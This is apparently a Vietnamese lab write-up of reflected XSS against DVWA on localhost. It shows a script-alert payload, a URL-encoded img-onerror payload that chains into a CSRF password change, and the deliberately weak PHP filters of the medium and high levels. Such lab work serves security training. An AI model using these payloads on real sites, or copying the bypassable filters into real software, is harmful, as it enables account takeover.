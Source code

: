 # XSS Reflect

**Mức độ: Trung bình, Cao.**

![alt text](image.png)

Đây là màn hình đầu tiên của ứng dụng -> Thực hiện chèn câu lệnh script 

```JS
<script>alert(1)</script>
```

Kết quả trả về như sau -> lỗ hổng đã xuất hiện

![alt text](image-1.png)

Thay parameter trong URL thành scỉpt độc hại dùng để thay đổi password:

![alt text](image-2.png)

```URL
http://localhost/DVWA/vulnerabilities/xss_r/?name=%3Cimg%20src%3D%22image.gif%22%20onerror%3D%22window.location.href%3D%27http%3A%2F%2Flocalhost%2FDVWA%2Fvulnerabilities%2Fcsrf%2F%3Fpassword_new%3Dpassword%26password_conf%3Dpassword%26Change%3DChange%23%27%3B%22%3E#
```

![alt text](image-3.png)

Ta có phần code của mức độ:

```PHP

<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

?>
```

**Mức độ: Cao.**

```PHP
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

?>
```

